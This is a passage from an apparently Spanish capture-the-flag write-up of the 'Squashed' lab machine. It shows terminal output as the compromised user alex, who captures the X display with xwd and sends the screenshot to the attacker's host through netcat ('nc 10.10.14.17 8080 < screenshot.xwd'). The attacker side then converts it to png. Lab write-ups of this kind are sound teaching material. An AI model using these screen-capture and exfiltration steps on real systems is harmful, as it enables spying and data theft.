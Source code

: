 ```
alex@squashed:~$ xwd -root -screen -silent -display :0 > screenshot.xwd
alex@squashed:~$ ls -la
total 1960
drwxr-xr-x 16 alex alex    4096 Jan 17 03:49 .
drwxr-xr-x  4 root root    4096 Oct 21 14:57 ..
-rw-rw-rw-  1 alex alex      57 Jan 15 23:58 .Xauthority
-rw-r--r--  1 alex alex      57 Jan 15 23:58 .Xauthority.1
lrwxrwxrwx  1 root root       9 Oct 17 13:23 .bash_history -> /dev/null
drwxr-xr-x  8 alex alex    4096 Jan 17 02:30 .cache
drwx------  8 alex alex    4096 Oct 21 14:57 .config
drwx------  3 alex alex    4096 Oct 21 14:57 .gnupg
-rw-------  1 alex alex      34 Jan 16 05:29 .lesshst
drwx------  4 alex alex    4096 Jan 16 04:56 .local
drwxr-xr-x  2 alex alex    4096 Jan 16 05:19 .ssh
lrwxrwxrwx  1 root root       9 Oct 21 13:06 .viminfo -> /dev/null
drwxr-xr-x  2 alex alex    4096 Oct 21 14:57 Desktop
drwxr-xr-x  2 alex alex    4096 Oct 21 14:57 Documents
drwxr-xr-x  2 alex alex    4096 Oct 21 14:57 Downloads
drwxr-xr-x  2 alex alex    4096 Oct 21 14:57 Music
drwxr-xr-x  2 alex alex    4096 Oct 21 14:57 Pictures
drwxr-xr-x  2 alex alex    4096 Oct 21 14:57 Public
drwxr-xr-x  2 alex alex    4096 Oct 21 14:57 Templates
drwxr-xr-x  2 alex alex    4096 Oct 21 14:57 Videos
-rw-r--r--  1 alex alex 1923179 Jan 17 03:49 screenshot.xwd
drwx------  3 alex alex    4096 Oct 21 14:57 snap
-rw-r-----  1 root alex      33 Jan 15 23:58 user.txt
alex@squashed:~$
```

Vamos a pasarnos el archivo creado.

```
alex@squashed:~$ nc 10.10.14.17 8080 < screenshot.xwd 
alex@squashed:~$
```

```
❯ nc -nlvp 8080 > screenshot.xwd
listening on [any] 8080 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.191] 50478
^C
```

En nuestro equipo vamos a convertir el archivo a formato png.

```
❯ ll
.rw-r--r-- root root 1.3 KB Mon Jan 16 20:41:22 2023  Passwords.kdbx
.rw-r--r-- root root 1.8 MB Mon Jan 16 21:52:30 2023  screenshot.xwd
❯ file screenshot.xwd
screenshot.xwd: XWD X Window Dump image data, "xwdump", 800x600x24
❯ convert screenshot.xwd screenshot.png
❯ ll
.rw-r--r-- root root 1.3 KB Mon Jan 16 20:41:22 2023  Passwords.kdbx
.rw-r--r-- root root  44 KB Mon Jan 16 21:53:54 2023  screenshot.png
.rw-r--r-- root root 1.8 MB Mon Jan 16 21:52:30 2023  screenshot.xwd
```


[bat error]: '.Xauthority': Permission denied (os error 13)